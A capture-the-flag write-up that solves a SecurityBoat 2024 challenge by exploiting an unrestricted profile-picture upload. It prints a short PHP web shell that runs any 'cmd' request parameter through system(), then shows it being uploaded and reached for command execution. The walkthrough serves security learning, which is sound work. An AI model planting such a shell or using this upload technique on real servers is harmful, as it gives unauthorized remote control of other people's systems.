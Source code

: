 # SecurityBoat 2024 CTF January Challenge

Today we are going to solve ctf challenge which has Arbitary File Upload Vulnerability.

1.  First I crawl the site, Only page that seem useful was login page (login.html)

2.  I tried SQLi and many other things, but nothing was useful . So I registered a user and logged in .

3.  After login, I went to the profile page , there was a upload profile feature.
  <img width="252" alt="image" src="https://github.com/MrKrYP70n/Writeups/assets/114393219/8f1fc20c-e27d-4396-a384-ad936e4956b2">

4.  There I knew that it would be arbitary file upload feature .

5.   First I uploaded a sample image, and checked its location on server using inspect element
<img width="556" alt="image" src="https://github.com/MrKrYP70n/Writeups/assets/114393219/da57cc32-1378-472a-90f5-9c87fdcf9ca7">

6.    Now, I created a php script to upload it.
````
<?php 
if(isset($_REQUEST['cmd'])){
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
}?>
````
7.  why php ? --> So if we go to the non valid directory we can see the error is exposing that it is a Apache server and Apache server mostly uses php files.
<img width="333" alt="image" src="https://github.com/MrKrYP70n/Writeups/assets/114393219/29e73d70-f844-478f-b222-8cbbd77dcb7e">

8.   File uploaded successfully.

9.   Let's go to the uploaded image directory (assets/profPic/shelly.php) which we got in #5 point .

10.   And Boom ! , We got command execution .
<img width="402" alt="image" src="https://github.com/MrKrYP70n/Writeups/assets/114393219/1f2e6305-d6d5-495d-b36b-3548b2cd0132">

<br><br>
<img width="466" alt="image" src="https://github.com/MrKrYP70n/Writeups/assets/114393219/2eec3234-6479-4a66-add6-4df882c6748d">

12.  ````{Unrestr!cted_F!le_Upload_!s_Fun} ````

This was a pretty good and easy challenge.
